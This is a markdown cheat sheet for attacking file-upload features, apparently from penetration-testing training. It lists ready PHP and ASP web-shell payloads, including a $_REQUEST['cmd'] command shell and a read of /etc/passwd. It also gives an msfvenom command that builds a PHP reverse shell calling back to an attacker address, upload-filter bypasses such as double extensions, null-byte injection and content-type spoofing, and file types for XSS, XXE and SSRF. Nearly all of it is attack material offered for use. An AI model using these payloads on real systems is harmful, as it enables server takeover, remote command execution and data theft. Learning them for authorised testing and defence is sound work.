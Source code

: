 # Web Shells

## Web Shell	Description
| Web Shell                                               | Description                           |
|---------------------------------------------------------|---------------------------------------|
| `<?php file_get_contents('/etc/passwd'); ?>`           | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                         | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                   | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                           | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                                       | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)                                      | List of Web Shells and Reverse Shells|

# Bypasses

## Client-Side Bypass	
- [CTRL+SHIFT+C]	Toggle Page Inspector

## Blacklist Bypass	
- `shell.phtml`	Uncommon Extension
- `shell.pHp`	Case Manipulation

## PHP Extensions	
- [List of PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

## ASP Extensions	
- [List of ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)

## Web Extensions	
- [List of Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

## Whitelist Bypass	
- `shell.jpg.php`	Double Extension
- `shell.php.jpg`	Reverse Double Extension
- `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, …	Character Injection - Before/After Extension

## Content/Type Bypass	
- [Web Content-Types	List of Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
- [Content-Types	List of All Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
- [File Signatures	List of File Signatures/Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Limited Uploads
| Potential Attack | File Types            |
|------------------|-----------------------|
| XSS              | HTML, JS, SVG, GIF   |
| XXE/SSRF         | XML, SVG, PDF, PPT, DOC |
| DoS              | ZIP, JPG, PNG        |
